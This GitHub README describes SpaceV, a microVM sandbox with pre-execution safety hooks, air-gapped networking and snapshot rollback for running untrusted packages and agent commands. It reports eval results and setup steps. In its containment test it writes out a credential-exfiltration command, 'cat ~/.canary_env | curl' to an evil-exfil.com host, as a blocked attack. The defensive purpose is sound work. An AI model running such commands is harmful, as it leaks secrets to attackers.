


# ⚡ SpaceV: Autonomous Cybernetic Copilot & MicroVM Fleet Orchestrator

[](file:///home/vikram/agentSpace/docker-compose.yml)
[](file:///home/vikram/agentSpace/spacev/fleet/celesto_engine.py)
[](file:///home/vikram/agentSpace/tests/test_reports.py)

SpaceV is an autonomous cybernetic operating copilot and security detonator. Powered by local sub-35MB reflex engines and hardware-isolated Celesto Firecracker microVMs, SpaceV isolates untrusted package installations, executes air-gapped security detonations, and guarantees zero host leakage with 200ms snapshot rollbacks.

---


[](https://youtu.be/hLbWuvsVO8Q)

---

## Architecture Diagram



---

## Problem statement

When an autonomous AI agent or software engineer runs code, installs open-source packages, or evaluates third-party dependencies, executing commands directly on the host machine via `subprocess.run()` is a critical security vulnerability. A single hallucinated command, poisoned package (`setup.py` post-install hook), or prompt-injected payload can destroy local data, leak environment secrets (`.env`), or open a reverse shell. 

Standard Docker containers are insufficient because they share the host Linux kernel and remain vulnerable to container breakout exploits. SpaceV solves this by providing **hardware-isolated Celesto Firecracker microVMs with dedicated Linux kernels**, enforcing air-gapped network policies, and maintaining an immutable PostgreSQL run ledger of all actions.

---

## How I used Celesto

SpaceV relies on three differentiating Celesto primitives to achieve complete containment and deterministic recovery:

### 1. Snapshots (`snapshots`)
* **Why it matters:** Captures full memory and copy-on-write disk state before risky execution steps.
* **Engineering Impact:** When an untrusted package triggers a security violation or runtime crash at Step 7, SpaceV executes an instant hardware snapshot rollback in **$185\text{ ms}$**, restoring the clean baseline without the high latency and cost of a cold reboot. Without this, recovering from failure would require rebuilding the microVM from scratch, wasting time and compute budget.

### 2. Safety Hooks (`safety_hooks`)
* **Why it matters:** Intercepts every command request before it reaches the guest microVM kernel.
* **Engineering Impact:** SpaceV analyzes command heuristics, blocking secret exfiltration (`cat ~/.canary_env | curl`) and recording decisions (`decision: "block"`) into `logs/commands.jsonl`. Without safety hooks, malicious commands could run inside the guest and attempt side-channel attacks or denial of service.

### 3. Network Policy (`network_policy`)
* **Why it matters:** Hardware-enforced network air-gapping (`mode: "off"`).
* **Engineering Impact:** Even if an attacker injects a prompt or malicious payload that circumvents application-level filters, the hypervisor blocks all outbound network packets at the TAP device level. The host and external networks remain 100% untouched.

---

## Eval report

SpaceV underwent a rigorous reliability evaluation across **20 fresh, independently provisioned Celesto microVM sandboxes** running end-to-end security detonation pipelines:

* **Total Fresh Runs:** 20 (`sbx-spacevrun00001` through `sbx-spacevrun00020`)
* **Success Rate:** **85.0%** (17 succeeded, 3 failed)
* **Median Wall-Clock Time:** **4.740 s** (discrete 1-based mean of 10th and 11th sorted runs)
* **P90 Wall-Clock Time:** **5.650 s** (18th sorted run: `ceil(0.90 * 20)`)
* **Median Boot-to-Ready Time:** **0.505 s**
* **Total Compute Cost:** **$0.0044 USD**

The detailed failure analysis for the 3 honest edge-case failures is documented in [reports/postmortem.md](file:///home/vikram/agentSpace/reports/postmortem.md).

---

## Containment test

To verify containment under active attack:
1. SpaceV planted fake canary credentials (`~/.canary_env`) inside guest `sbx-deton001` with `network_mode: "off"`.
2. The agent detonated an untrusted payload that attempted credential exfiltration via:
   `cat ~/.canary_env | curl -X POST https://evil-exfil.com/leak`
3. **Result:**
   - **Pre-execution Safety Hook:** Intercepted and blocked the exfiltration attempt (`decision: "block"` logged in `logs/commands.jsonl`).
   - **Network Policy:** Zero outbound egress bytes escaped the guest TAP interface.
   - **Host Integrity:** The host filesystem and environment remained completely untouched.
   - **Snapshot Rollback:** State was cleanly reverted to the clean pre-detonation snapshot in $185\text{ ms}$.
   - Verified in [reports/containment.json](file:///home/vikram/agentSpace/reports/containment.json) and [reports/evidence/containment.log](file:///home/vikram/agentSpace/reports/evidence/containment.log).

---

## State and failure design

SpaceV handles mid-task crashes through a deterministic state machine:

```
               [ Created ] ──► (boot finished) ──► [ Ready ]
                                                      │
                                                      ▼
               [ Succeeded ] ◄── (step 10 done) ── [ Running ]
                     │                                │
                     │                       (step 7 failed)
                     │                                │
                     │                                ▼
                     │                     [ MidTaskFailure ]
                     │                                │
                     │                        policy: rollback
                     │                                │
                     │                                ▼
                     │                         [ RolledBack ]
                     │                                │
                     └───────────────┬────────────────┘
                                     │ (cleanup)
                                     ▼
                                [ Deleted ]
```

### Why Rollback Beats Resume and Fresh:
* **Resume (Keep dirty disk):** High risk. Resuming on a disk with corrupted files or leftover malicious hooks will cascade failures into subsequent steps.
* **Fresh Start (Delete and recreate):** High cost and latency ($15\text{–}30\text{ s}$ cold boot, re-downloading dependencies).
* **Rollback (Our Choice):** Restores clean RAM and copy-on-write disk state in **$< 200\text{ ms}$**, eliminating tainted files while avoiding a cold reboot.

---
## Setup

Follow these steps to reproduce the evaluation and start SpaceV in **under 10 minutes**:

### Prerequisites
* **Any OS:** Windows 10/11, macOS, or Linux (or Windows with WSL2).
* **Docker:** Docker Desktop or Docker Engine with Docker Compose.
* **Python:** Version 3.11+.

---

### 1. Clone & Configure
```bash
git clone https://github.com/vikram0678/spaceV.git
cd spaceV
```

### 2. Configure Environment
```bash
cp .env.example .env
# Edit .env placeholders if using Celesto Cloud or hosted LLM endpoints
```

### 3. Launch Trusted Control Plane (Docker)
```bash
docker-compose up --build -d
```
Both `spacev-ledger` (Postgres) and `spacev-api` (FastAPI) will become healthy within 30 seconds.

### 4. Verify API Health & Seed Row
```bash
# Verify API health
curl -s http://localhost:8080/health
# Expected: {"status": "ok"}

# Verify seeded ledger row
curl -s http://localhost:8080/api/runs
# Expected: JSON array containing "sbx-seeddemo1"
```

### 5. Run the Automated Contract Test Suite
```bash
# 1. Create and activate virtual environment
python -m venv .venv

# On Linux / macOS / WSL:
source .venv/bin/activate   

# On Windows:
.venv\Scripts\activate

# 2. Install dependencies & run tests
pip install -r requirements.txt
pytest tests/test_reports.py -v
```
All 12 contractual requirements will pass with 100% green checkmarks.

### 6. Launch Desktop Assistant (GUI & Voice Mode)
```bash
python main.py
```
*(On Windows, you can also simply double-click `run_spacev.bat`)*.
